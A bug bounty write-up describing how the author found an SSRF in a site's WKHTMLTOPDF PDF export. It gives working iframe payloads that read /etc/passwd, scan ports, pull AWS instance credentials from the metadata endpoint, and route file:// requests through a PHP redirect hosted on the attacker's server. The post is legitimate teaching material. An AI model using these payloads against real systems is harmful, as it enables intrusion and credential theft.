 ```yaml
---
title: "[EN] - Exploiting my first SSRF"
date: 2020-03-01T14:00:00+02:00
draft: false
tags: ["BugBounty", "SSRF", "Tips", "Writeup"]
---
```


This week on a BugBounty program which I left aside I found my first SSRF, here is my writeup.

## Recon
The scope is restricted to the website and its API, rather basic it allows to register as a simple user and has only a few features. 

The program has been open for several months already, I approached the site thinking I probably won't find much. 

However from the first hours I already had several P2 (IDOR). A scope perhaps more interesting than expected ... so I spent some time to observe the various features and how they work as a simple user.

After some tests I noticed a feature that allows to generate a PDF with data entered by the user, the software used is *WKHTMLTOPDF* in its version *0.12.3*. 

Interesting, especially since recently I could read the excellent presentation of Nahamsec "[Owning the cloud through SSRF and PDF generators](https://docs.google.com/presentation/d/1JdIjHHPsFSgLbaJcHmMkE904jmwPM4xdhEuwhy2ebvo/edit#slide=id.g5df2243028_2_81)", if I retained at least 1 thing from this presentation it's the sentence "*If you see a PDF generator somewhere, 9/10 it's vulnerable*".

After some tests I finally didn't manage to exploit the feature, at least not on this endpoint ! 

While continuing to use the site and its features I came across a page that allowed me to add items and then generate a PDF of them, ok ... let's try again. I first started with a basic payload:

```html
<b>TEST</b>
```

Nothing ... try something else :

```html
<a href="https://google.fr">xxx</a>
```

This time, it's well reflected in the PDF and the link is clickable, so it's possible to inject HTML!

## Exploitation

In the rush I directly wanted to load the contents of the file "/etc/passwd" with the following payload :
```html
<iframe src="file:///etc/passwd">
```

Unfortunately the iframe was empty, so I tested a first payload to check that it was possible to interact with an external resource.
```html
<iframe src="https://{MY_SERVER}/x.png">
```

While generating the PDF, I received the request to my server, which confirmed that it is possible to use an iframe, so I tested various techniques, including port scanning with a payload of the type :
```html
<iframe src="https://domain.tld:80">
<iframe src="https://domain.tld:25">
<iframe src="https://domain.tld:22">
```

When a port was not available I got a 500 error from the server, ok so I got a blind SSRF but I wanted more than a simple port scan! Then I remembered that at one point in the site when you want to access a document the URL is of the type *https://domain.tld/s3/get/document/8/{RESSOURCE_ID}*.

Hum. .., *S3* ? Maybe an AWS instance, let's test that :

```html
<iframe src="http://169.254.169.254">
```

Boom ! I have access to the AWS instance and its content, including credentials (API tokens, etc...) which are private and sensitive elements.

![](/images/2020/bounty/SSRF_AWS_KEY.png)

## Digging

Ok cool, this SSRF is already critical, but in the end I wanted to load a local file on the server such as "*/etc/passwd*", after some tests and bypassing technique I always end up with an empty iframe.

Then while talking with a hunter friend, he showed me a very interesting technique, a PHP code snippet that allows to include an iframe to an external URL that will redirect to 127.0.0.1 but with the possibility to include a parameter such as "*file://*"" to load a local file.

The code snippet is as follows:
```php
$loc = "http://127.0.0.1/";

if(isset($_GET['a'])){
    $loc = $_GET['a'];
}
header('Location: '.$loc);
```

So I quickly set it up on my server (You will have understood that it is necessary to have a web server with PHP installed for this piece of code to be usable).

I can now use the following payload:
```html
<iframe src="https://my_server.tld/ssrf.php?a=file:///etc/passwd">
```

I generate the new PDF and hop! I have the content of the desired file :D

## Conclusion
This SSRF is interesting because even if it may remain quite "simple", it shows that you should not stop at the first payload that works (the port scan in my case) and try to dig for the most critical scenario.

In the end, by looking closer, on the Github repository of [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings) it is possible to find the following payload:
```php
<?php
  header("Location: gopher://hack3r.site:1337/_SSRF%0ATest!");
?>
```

That you only have to modify in this to get the same result as above:
```php
<?php
 header("Location: file:///etc/passwd");
?>
```

The advantage of the code snippet above is that it is possible to directly include the wrapper with the desired payload as a parameter rather than modifying the content of the php file each time.

Initially I hadn't watched this program because I didn't find it interesting, it's only several months after I decided to have a look at it, although several hunters have raised vulnerabilities I learned here that it's always interesting to go back to an "old scope".

That doesn't mean the other hunters were bad because each hunter has its own methodology and favorite vulnerabilities, especially since this is a production site so there is a strong chance that there have been changes or new features that weren't available before.